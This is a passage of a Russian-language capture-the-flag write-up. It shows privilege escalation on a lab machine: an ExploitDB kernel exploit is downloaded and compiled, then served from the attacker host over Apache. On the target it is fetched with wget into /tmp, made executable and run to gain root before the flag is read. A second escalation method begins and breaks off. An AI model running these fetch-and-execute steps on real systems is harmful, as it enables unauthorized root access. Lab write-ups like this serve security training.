 ![[Pasted image 20240321002830.png]]

==После== для этого я открыл URL-адрес ExploitDB и скопировал URL-адрес загрузки.

После этого я воспользовался утилитой wget, чтобы загрузить эксплойт на машину злоумышленника. Как только эксплойт был загружен, я переименовал его с помощью команды mv и использовал компилятор gcc для его компиляции. После завершения процесса компиляции был создан файл эксплойта.

```bash
cd /var/www/html/
wget https://www.exploit-db.com/download/44298
mv 44298 44298.c
gcc 44298.c -o exploit
/etc/init.d/apache2 start
ifconfig
```

![[Pasted image 20240321004047.png]]

![[Pasted image 20240321004054.png]]

Когда эксплойт успешно выполнился, я запустил службу apache2, чтобы передать этот эксплойт на целевую машину.

Я изменил свой текущий каталог на каталог tmp на целевой машине и загрузил эксплойт с помощью утилиты wget. После этого я предоставил разрешение на исполняемый файл с помощью команды chmod. После этого я запустил эксплойт, который дал root-доступ целевой машины. Все команды и их вывод можно увидеть выделенными на следующем снимке экрана.

```bash
cd /tmp/
wget 10.9.227.16/exploit
chmod +x exploit
./exploit
```

![[Pasted image 20240321004210.png]]

Теперь у нас есть root-доступ к целевой машине. Давайте найдем флаг и завершим CTF.

![[Pasted image 20240321004235.png]]

Я прочитал файл флага в каталоге tmp с помощью команды cat. Флаг можно увидеть на следующем скриншоте.

![[Pasted image 20240321004252.png]]

## Второй способ повышение привелигий

```bash
id
groups
```

Давайте посмотрим, в каких группах состоит пользователь. Мы можем сделать это с помощью `groups`команды. Мы видим, что `baksteen`это часть групп `users`и `baksteen`. Давайте посмотрим, есть ли какие-нибудь интересные файлы, которые могут быть выполнены пользователями этих групп. Так пользователь «baksteen» принадлежит к двум разным группам. Мы используем попытку найти файлы, принадлежащие группе «users»
